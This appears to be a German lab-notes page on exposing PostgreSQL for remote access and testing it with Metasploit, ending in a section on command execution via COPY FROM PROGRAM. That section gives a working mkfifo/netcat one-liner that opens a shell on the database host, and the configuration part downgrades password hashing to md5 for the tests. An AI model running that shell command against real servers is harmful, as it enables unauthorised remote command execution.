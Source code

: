 .. _postgresql:

Konfiguration
###############

Remote Access ermöglichen
==========================
1. /etc/postgresql/14/main/postgresql.conf
    # Listen Adresse auf alle Interfaces setzen
      listen_addresses = '*' 

    # password_encryption
    password_encryption = md5    # scram-sha-256 or md5

    *Password Encryption sollte man auf dem default-Wert "scram-sha-256" lassen. Für metasploit Tests kann man das auf 
    md5 setzen. Wenn vorher aber User/Role mit scram-sha-256 angelegt wurden, sind die Passwörter mit dem Verfahren 
    verschlüsselt worden. Daher muss man die Passwörter neu vergeben, ansonsten liefert Metasploit folgende Fehlermeldung 
    beim exploit "scanner/postgres/postgres_login"*

    .. code-block:: shell

        [-] <IP>:5432 - LOGIN FAILED: admin:admin@mydb (Incorrect: unknown auth type '10' with buffer content:
        52 00 00 00 17 00 00 00 0a 53 43 52 41 4d 2d 53    |R........SCRAM-S|
        48 41 2d 32 35 36 00 00                            |HA-256..|
    

2. /etc/postgresql/14/main/pg_hba.conf
   
    # Netzwerkbereich zulassen, der zugreifen darf
      host    all             all             <IP Netz>/24        md5

3. systemctl restart postgresql
4. lsof -i:5432
5. less /var/log/postgresql/postgresql-14-main.log
6. psql -h <IP> -p 5432 -d <DB> -U <user> -W


####################################
Command Execution with COPY Command
####################################

Quelle: `<https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767>`_

In diesem Szenario erfolgt eine remote Anmeldung an die postgres-Datenbank; es wird ein Listener eingerichtet, um beliebige
Befehle auf dem Zielhost abzusetzen. 

1. Anmelden an Datenbanken mit Admin-User::
   
    psql -h <Zielhost> -U <User> -d <Datenbank> -W

2. Remote Listener einrichten::
   
    COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc -l <Zielhost> <PORT> > /tmp/f';

3. in einer neuen Shell können dann bash Befehle abgesetzt werden::
   
    nc <Zielhost> <PORT> 
   
   Befehle werden im Kontext des postgres-Serverprocesses ausgeführt.




Zurück zu :ref:`postgresql`